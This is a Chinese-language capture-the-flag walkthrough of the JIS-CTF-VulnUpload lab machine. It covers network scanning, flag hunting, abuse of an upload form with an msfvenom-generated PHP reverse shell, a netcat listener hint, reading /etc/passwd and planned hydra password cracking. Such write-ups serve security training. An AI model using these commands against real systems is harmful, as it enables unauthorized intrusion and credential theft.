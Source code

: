 

### 攻擊主機：Kali_Linux_2019.3 
### 靶機：JIS-CTF-VulnUpload-CTF01

#### 搜尋靶機IP
> **Kali>** <code>arp-scan -l</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e53f9a10-cfff-4cc6-8ea3-7891432dcc6c)</br>
💡：去掉頭跟尾(IP)，確定靶機為 192.168.203.129


#### 弱點掃描
> 使用nmap進行弱掃
**Kali>** <code>nmap -v -sS -O -A -p- 192.168.203.129</code> </br>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/6ced9f28-af7e-4be8-bbe9-12c976a83bc6)</br>
💡得知有開啟22port和80port

#### 先看看http://192.168.203.129
> 意外發現第四支旗
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1b4aea6e-8720-47a5-a6ab-4ba0bb10bb08) <br/>
> (在Inspect Element中)
> 解碼之後：
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/90dd9069-88ed-4e84-bb42-b2909b14955f)
```js
    There is a vuln of upload service on the next page after you log in. Please find the php-reverse-shell.php under /usr/share/webshells/php in kali linux. In order to get the reverse session from target, run nc -lvnp port#. Edit the "CHANGE THIS" in the  php-reverse-shell.php and then upload it :10 points
```
> 這個線索告訴我接下來要用反向工程，但我先把1~3支旗找回來

#### 使用dirb嘗試看看
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/378d385b-8ddc-4073-9f80-a24841b581d4)
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/954f81f4-387a-4f15-aa83-fdcdeba341ba)
> 在 http://192.168.203.129/flag 找到第一支旗
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3029e6e9-a3a2-4390-91ad-1f08fa929ecd)
```js
    This is a Jimmy's Cyber Class:10 points
```
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/dd47bca4-4bc2-4d34-963a-36900ca3a86b)
> 並在admin_area中找到第二支旗，還附了admin的帳密
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/b017c504-588b-4e7c-ae12-8f6d97677872)
```js
    You might have great time in this security class:10 points
```
> 在CSS中找到hint檔案，找到第三支旗
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/eaed5634-4316-43a6-9f16-86afdf364032)
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/e5449597-ff8a-4b4e-a411-86f6ff4b8ead)
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/3577cf9d-dbc5-4caa-87d0-714a526f7033)
```js
    Of course you know password crack is illegal:10 points
```

#### 進入靶機
> 使用第二支旗給的帳密
> 在 http://192.168.203.129/login.php (第四支旗的網頁)進入了可以上傳資料的網頁
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/0c9b6c6b-30d9-4b56-a8dc-dd2da4c0fc21)
> **使用反向工程**
> 在我好找的地方養一隻可愛的彩虹小馬
> <code>msfvenom -p php/reverse_php LHOST=192.168.203.129 LPORT=1234 -f raw > shell.php</code>
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/acba887e-1c5f-4741-a252-9417579f4156)
> 把他上傳
> 在掃80port的時候注意到有個upload_files，感覺可以讓靶機開我的檔案
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/9beecb0f-a4a7-484b-a481-dad0820cdc88)
> 在upload_files開啟我的檔案，成功進入靶機
> ![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/1c487e45-5815-4a4c-9833-749ba16edfea)
> 我這時候只有www-data的權限，做不了甚麼但可以查看使用者
> <code>Cat /etc/passwd</code>
> 有兩個使用者，Jimmy和technawi可以做密碼破解使用hydra
> 發現Jimmy比較容易破出來
> 使用Jimmy進行登入
> 發現bash無法下sudo，故先下bash指令
> **$** <code>su jimmy</code>




